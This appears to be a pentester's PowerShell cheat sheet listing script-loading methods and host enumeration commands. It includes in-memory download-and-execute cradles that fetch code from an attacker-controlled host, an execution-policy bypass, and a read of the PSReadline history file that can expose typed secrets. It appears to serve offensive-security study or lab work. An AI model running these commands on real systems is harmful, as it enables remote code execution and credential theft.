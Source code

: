 # Powershell

## ISE Hotkeys

- Switch to console pane: `Ctrl + d`
- Switch to scripting pane: `Ctrl + i`

## Fundamentals

Load PowerShell scripts via the following methods:

```powershell
# Local dot-source
. .\$SCRIPT

# Local import module
Import-Module .\$SCRIPT

# Remotely
iex(new-object net.webclient).downloadstring("http://$OUR_IP:$PORT/$SCRIPT")
```

- Dot-sourcing loads powershell scripts into the **current scope**. Stealthier but can break for functions with overlapping names.
- `Import-Module` loads powershell scripts, but executes them in their own scope.

## Capabilities

```powershell
# Print system information
systeminfo

# Print hostname
hostname

# Print OS version
[System.Environment]::OSVersion.Version

# Print patches/hotfixes on the host
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Print network configurations
ipconfig /all
arp -a
route print

# List available modules
Get-Module

# Print execution policy
Get-ExecutionPolicy -List

# Change the execution policy in our current process
Set-ExecutionPolicy Bypass -Scope Process

# Check history
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt

# Check environment variables
Get-ChildItem Env: | ft Key,Value

# Download a powershell script and execute it in memory
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"

# Check firewall
netsh advfirewall show allprofiles

# Check defender
Get-MpComputerStatus

# Check for other sessions
qwinsta

# Check module for available commands
Get-Command -Module Defender

# Stop process
Stop-Process -Id $PID
Stop-Process -Name $PROC_NAME
```
